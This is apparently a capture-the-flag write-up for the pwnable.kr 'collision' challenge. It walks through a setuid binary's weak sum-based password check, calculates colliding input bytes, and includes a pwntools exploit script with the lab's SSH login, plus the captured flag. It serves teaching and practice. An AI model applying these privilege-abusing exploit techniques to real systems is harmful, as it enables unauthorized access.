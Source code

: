 ```yaml
---
title: "pwnable.kr - collision"
classes: wide
header:
  teaser: /assets/images/pwn/pwn.png
ribbon: green
description: "A simple challenge related to collision attacks in hashing"
categories:
  - Pwn
---
```



Lets connect to our server,

```c
ra@moni~> ssh col@128.61.240.205 -p 2222
col@128.61.240.205's password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have new mail.
Last login: Wed Jun  2 03:52:15 2021 from 49.205.143.178
col@pwnable:~$
```

After listing the files in it, we can see

```c
col@pwnable:~$ ls -la
total 36
drwxr-x---   5 root    col     4096 Oct 23  2016 .
drwxr-xr-x 115 root    root    4096 Dec 22 08:10 ..
d---------   2 root    root    4096 Jun 12  2014 .bash_history
-r-sr-x---   1 col_pwn col     7341 Jun 11  2014 col
-rw-r--r--   1 root    root     555 Jun 12  2014 col.c
-r--r-----   1 col_pwn col_pwn   52 Jun 11  2014 flag
dr-xr-xr-x   2 root    root    4096 Aug 20  2014 .irssi
drwxr-xr-x   2 root    root    4096 Oct 23  2016 .pwntools-cache
col@pwnable:~$
```

It seems like there are some restrictions in privilege as usual,

```c
col@pwnable:~$ cat flag
cat: flag: Permission denied
col@pwnable:~$
```

We cannot read our flag directly, so we have to use the binary to get it

By analyzing the file type of our binary using ```file``` command, we get

```c
col@pwnable:~$ file col
col: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=05a10e253161f02d8e6553d95018bc82c7b531fe, not stripped
```

Now lets view the source code of the binary from ```col.c```

```c
col@pwnable:~$ cat col.c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}

int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}
```
Now after analyzing the binary, we can come to a conclusion that,

- It has a global variable ```unsigned long hashcode = 0x21DD09EC;```

- It has a global function ```unsigned long check_password()```

- It gets two arguments (ie. filename,input1 )

- It compare the input length which is equal to 20 bytes or not

- If it passes these conditions, it compares the ```hashcode``` with ```check_password(input1)```

- If it is true, it displays the ```flag```

- Else it displays an error message


So the whole binary lies on this function,

```c
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}
```
The value ```res``` being returned from this function should be equal to ```0x21DD09EC```

We knew the resultant value should be ```0x21DD09EC```,

The value in ```int``` is,

```c
>>> print(0x21DD09EC)
568134124
```

It is being looped 5 times and added to ```res```,so

```c
>>> print(0x21DD09EC/5)
113626824.8
```

The function ```check_password(const char* p)``` gets its argument in ```char```

But it typecasts itself into ```int``` array by ```int* ip = (int*)p;```

Actually we need it to pass as ```char``` in input,not ```int```

Maximum size of ```int``` is ```4 bytes```

So the ```int``` array would be split into ```4 bytes``` for each loop,thus ```( 5 loop * 4 bytes = 20 bytes )```

Now,lets guess the input

```res``` = ```0x21DD09EC``` = ```568134124```

it should be in 5 parts (a,b,c,d,e)

```c
>>> print(0x21DD09EC/4)
142033531.0
>>> print(0x21DD09EC%4)
0
>>> print(0x21DD09EC/5)
113626824.8
>>> print(0x21DD09EC%5)
4
```

So it can have 4 parts of equal value, if we go for 5 it gives float which cannot be converted into ```hex``` (only ```int``` to ```hex``` possible)

Converting it into ```hex```

```c
>>> hex(142033531)
'0x877427b'
```

The total value of 4 equal parts is equal to our needed ```res```

```c
>>> hex(142033531*4)
'0x21dd09ec'
```

But we cannot pass `\x00` null bytes into our input, because it will get terminated and our program won't pass

So lets find the other way, by sharing values with 5 parts

```c
>>> print(0x21DD09EC/5)
113626824.8
>>> print(0x21DD09EC%5)
4
>>> print(0x21DD09EC//5)
113626824
>>> print(568134124-(113626824*4))
113626828
>>> hex(113626824)
'0x6c5cec8'
>>> hex(113626828)
'0x6c5cecc'
```

So our first 4 parts have ```0x6c5cec8``` and the last part as ```0x6c5cecc```

Lets craft our string with these to pass as input,

```c
ra@moni~> python3 -c 'print("\xc8\xce\xc5\x06" * 4 + "\xcc\xce\xc5\x06")'
ÈÎÅÈÎÅÈÎÅÈÎÅÌÎÅ
```

Its time for our exploit,

We will be using ```pwntools```

To install it pass ```pip install pwntools``` in yout terminal

Code for our exploit,

```c
ra@moni~/P/pwnable.kr> cat col-exploit.py
from pwn import *
data=p32(0x6c5cec8)*4+p32(0x6c5cecc)
remote = ssh('col' ,'128.61.240.205' ,password='guest', port=2222)
program = remote.process(executable='./col', argv=['col',data])
flag = program.recv()
log.success("Flag: " + flag)
program.close()
remote.close()
```

Lets try our final exploit

```c
ra@moni~/P/pwnable.kr> python col-exploit.py
[+] Connecting to 128.61.240.205 on port 2222: Done
[*] col@128.61.240.205:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process u'./col' on 128.61.240.205: pid 428418
[+] Flag: daddy! I just managed to create a hash collision :)
[*] Stopped remote process u'col' on 128.61.240.205 (pid 428418)
[*] Closed connection to '128.61.240.205'
```

Done! Our flag is,

```Flag: daddy! I just managed to create a hash collision :)```









